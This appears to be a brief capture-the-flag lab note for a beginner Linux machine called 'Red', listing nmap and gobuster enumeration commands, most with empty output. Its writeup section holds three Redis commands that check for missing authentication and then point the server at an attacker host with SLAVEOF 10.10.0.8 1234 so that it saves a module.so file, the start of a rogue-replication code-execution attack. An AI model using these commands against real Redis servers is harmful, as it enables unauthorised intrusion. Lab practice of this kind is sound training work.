 ```yaml
---
tags: [Beginner, Linux, Video]
title: Red
created: '2020-07-13T08:06:51.777Z'
modified: '2020-10-02T17:42:38.228Z'
---
```


# Red
- IP: `172.31.1.9`
- OS: `Linux`
## Enumeration
### Writeup

```
INFO # Check for NOAUTH
SLAVEOF 10.10.0.8 1234
CONFIG SET dbfilename module.so
```

### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.9`
```

```
</details>

<details>
<summary>gobuster</summary>

- `gobuster dir --wordlist /usr/share/wordlists/dirb/big.txt --url http://172.31.1.9/ -x html,txt -o commands/gobuster-80-root`
```

```
</details>

<details>
<summary></summary>

- ``
```

```
</details>
